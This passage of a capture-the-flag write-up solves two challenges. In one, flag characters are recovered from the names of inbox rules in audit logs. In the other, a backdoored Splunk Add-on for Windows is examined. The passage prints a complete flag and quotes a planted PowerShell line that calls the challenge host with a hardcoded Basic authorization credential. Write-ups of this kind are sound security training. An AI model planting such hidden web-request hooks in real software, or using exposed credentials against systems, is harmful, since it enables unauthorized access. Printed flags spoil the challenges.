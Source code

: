 ```
9/26/2023 2:05 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "2"}]
9/26/2023 2:05 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "b"}]
9/26/2023 2:06 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "2"}]
9/26/2023 2:06 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "c"}]
9/26/2023 2:07 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "8"}]
9/26/2023 2:07 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "5"}]
9/26/2023 2:07 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "0"}]
9/26/2023 2:08 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "f"}]
9/26/2023 2:08 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "7"}]
9/26/2023 2:09 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "4"}]
9/26/2023 2:09 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "b"}]
9/26/2023 2:09 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "0"}]
9/26/2023 2:10 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "f"}]
9/26/2023 2:10 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "6"}]
9/26/2023 2:10 DebraB creates InboxRule Parameters: [{ "Name": "Name", "Value" : "}"}]
```

The `New-Inbox` operations are one of the first things I look for from prior experience working on business email compromise incidents. I just used Excel to analyze these logs, and filtered for the suspected compromised account and for the operation `New-Inbox`. Normally an attacker does not create this many rules, but extracting the rule names gives us the flag:

```
flag{24c4230fa7d50eef392b2c850f74b0f6}
```

## Backdoored Splunk
This is an instance-based challenge. When I connect to the instance I get the following error:

```
$ curl -i http://chal.ctf.games:30866/
HTTP/1.1 401 UNAUTHORIZED
Content-Type: application/json
Content-Length: 52

{"error":"Missing or invalid Authorization header"}
```

At this point I assumed that to get the flag it was necessary to authorize ourselves. The challenge file is a copy of a Splunk Add-on for Windows directory, for version `8.7.0`. I didn't know much about this so I took a look at the [documentation](https://docs.splunk.com/Documentation/AddOns/released/Windows/AbouttheSplunkAdd-onforWindows), which didn't reveal much.

Looking at the files, I noticed most of them were created on `5/10/2023`, but there was a directory of PowerShell scripts that was created on `9/19/2023`. I started to look for any credentials that may have been included in these scripts and found this in the file `nt6-health.ps1`:

```
$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content
```

So I passed this over to the instance:
